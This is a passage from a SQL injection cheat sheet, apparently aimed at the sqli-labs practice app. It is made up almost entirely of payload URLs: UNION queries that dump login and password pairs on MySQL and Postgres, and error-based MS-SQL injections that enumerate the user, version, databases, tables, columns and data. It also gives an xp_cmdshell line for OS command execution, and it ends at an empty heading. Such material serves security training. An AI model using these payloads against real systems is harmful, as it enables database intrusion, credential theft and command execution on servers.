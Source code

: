 in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql** `http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

#### Error Based SQLI \(USUALLY MS-SQL\)

**Current user**

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

**DBMS version**

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

**Database name**

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`

**Tables from a database**

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

**Columns within a table**

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation after each iteration a new column name will be found, make sure add it to \*\* previously found column name \*\* separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

**Actual data**

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to \*\* previously found column name \*\* separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

**Shell commands**

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

**Enabling shell commands**
